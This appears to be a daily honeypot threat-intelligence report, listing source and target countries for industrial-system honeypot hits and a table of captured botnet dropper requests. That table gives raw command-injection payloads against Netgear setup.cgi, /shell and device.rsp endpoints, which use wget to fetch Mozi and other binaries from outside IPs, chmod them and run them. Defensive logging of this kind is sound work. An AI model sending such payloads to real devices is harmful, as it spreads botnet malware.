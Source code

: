 ```yaml
---
title: "Report: 2025-02-26 "
date: 2025-02-26
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-26
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Australia          |
| IE               | Australia          |
| FR               | Australia          |
| US               | Dubai              |
| CN               | Georgia            |
| PT               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                       |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.27    | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 91.224.92.10    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.124%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                    |
| 112.248.191.248 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.248.191.248:33894/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                |
| 117.245.14.168  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                         |
| 152.252.11.224  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://152.252.11.224:59224/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                 |
| 27.208.18.60    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                                                                                                                                                         |
| 182.113.55.221  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://182.113.55.221:38686/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                 |
